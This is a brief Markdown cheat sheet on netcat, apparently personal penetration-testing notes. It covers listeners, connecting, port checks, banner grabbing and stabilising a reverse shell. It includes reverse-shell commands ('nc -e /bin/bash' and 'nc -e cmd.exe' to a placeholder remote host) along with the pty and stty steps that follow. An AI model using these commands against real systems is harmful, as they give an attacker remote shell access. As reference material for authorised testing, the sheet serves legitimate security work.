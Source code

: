 # Netcat - NC

## Listener

```bash
nc -nlvp <LPORT>
```

```bash
rlwrap -cAr nc -nlvp <LPORT>
```

## Connect

```bash
nc <RHOST> <RPORT>
```

Use `-e` to link the connection to a program.

```bash
nc -e /bin/bash <RHOST> <RPORT>
```

```bash
nc -e cmd.exe <RHOST> <RPORT>
```

## investigate ports

- test port

```bash
nc -zv <RHOST> <RPORT>
```

- get banner

```bash
echo "QUIT" | nc <RHOST> <RPORT>
```

- send http request

```bash
printf "GET / HTTP/1.0\r\n\r\n" | nc <RHOST> <RPORT>
```

## Stabilize Reverse Shell

```bash
python3 -c "import pty;pty.spawn('/bin/bash')"
export TERM=xterm
Ctrl z
stty raw -echo; fg
```

## Links

[Stabilize a reverse shell](https://tkcyber.com/index.php/2022/06/19/stabilize-a-reverse-shell/)
